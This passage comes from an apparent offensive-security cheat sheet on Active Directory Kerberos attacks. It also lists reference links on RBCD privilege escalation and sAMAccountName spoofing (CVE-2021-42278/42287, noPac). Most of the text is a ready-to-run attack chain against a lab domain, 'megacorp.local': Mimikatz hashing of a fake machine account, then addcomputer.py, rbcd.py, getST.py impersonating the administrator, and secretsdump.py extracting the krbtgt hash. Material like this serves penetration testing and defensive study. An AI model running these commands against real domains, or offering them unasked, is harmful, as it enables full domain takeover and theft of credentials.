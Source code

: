 Or with Mimikatz:

```
mimikatz # kerberos::hash /domain:megacorp.local /user:fakemachine1337 /password:Passw0rd!
        * rc4_hmac_nt       fc525c9683e8fe067095ba2ddc971889
        * aes128_hmac       01c7b89a74f7aec1007ded2f3de0a815
        * aes256_hmac       211e8e3134ed797b0a2bf6c36d1a966b3bed2b24e4aaa9eceed23d0abf659e98
        * des_cbc_md5       621a91461f1adffe
```

Now you can impersonate a protected user:

```
$ addcomputer.py -computer-name fakemachine1337 -computer-pass 'Passw0rd!' -dc-ip 10.10.13.37 -dc-host DC01.megacorp.local megacorp.local/snovvcrash:'Qwe123!@#'
$ python3 rbcd.py -t 'CN=dc01,OU=Domain Controllers,DC=megacorp,DC=local' -d megacorp.local -c 'CN=fakemachine1337,CN=Computers,DC=megacorp,DC=local' -u snovvcrash -H 79bfd1ab35c67c19715aea7f06da66ee:79bfd1ab35c67c19715aea7f06da66ee -l 10.10.13.37
$ getST.py -spn ldap/DC01.megacorp.local -impersonate 'administrator' -dc-ip 10.10.13.37 megacorp.local/fakemachine1337 -hashes :fc525c9683e8fe067095ba2ddc971889 -aesKey 211e8e3134ed797b0a2bf6c36d1a966b3bed2b24e4aaa9eceed23d0abf659e98 -force-forwardable
$ secretsdump.py DC01.megacorp.local -just-dc-user 'MEGACORP\krbtgt' -dc-ip 10.10.13.37 -no-pass -k
```




## RBCD for PrivEsc

- [https://exploit.ph/delegate-2-thyself.html](https://exploit.ph/delegate-2-thyself.html)
- [https://exploit.ph/revisiting-delegate-2-thyself.html](https://exploit.ph/revisiting-delegate-2-thyself.html)
- [https://www.praetorian.com/blog/red-team-privilege-escalation-rbcd-based-privilege-escalation-part-2/](https://www.praetorian.com/blog/red-team-privilege-escalation-rbcd-based-privilege-escalation-part-2/)
- [https://cyberstoph.org/posts/2021/06/abusing-kerberos-s4u2self-for-local-privilege-escalation/](https://cyberstoph.org/posts/2021/06/abusing-kerberos-s4u2self-for-local-privilege-escalation/)
- [https://0xdf.gitlab.io/2021/11/08/htb-pivotapi-more.html#dcsync](https://0xdf.gitlab.io/2021/11/08/htb-pivotapi-more.html#dcsync)



### sAMAccountName Spoofing

**CVE-2021-42278, CVE-2021-42287**

- [https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html](https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html)
- [https://exploit.ph/more-samaccountname-impersonation.html](https://exploit.ph/more-samaccountname-impersonation.html)
- [https://www.thehacker.recipes/ad/movement/kerberos/samaccountname-spoofing](https://www.thehacker.recipes/ad/movement/kerberos/samaccountname-spoofing)
- [https://cloudbrothers.info/en/exploit-kerberos-samaccountname-spoofing/](https://cloudbrothers.info/en/exploit-kerberos-samaccountname-spoofing/)
- [https://github.com/cube0x0/noPac](https://github.com/cube0x0/noPac)
- [https://gist.github.com/S3cur3Th1sSh1t/0ed2fb0b5ae485b68cbc50e89581baa6](https://gist.github.com/S3cur3Th1sSh1t/0ed2fb0b5ae485b68cbc50e89581baa6)
- [https://github.com/Ridter/noPac](https://github.com/Ridter/noPac)

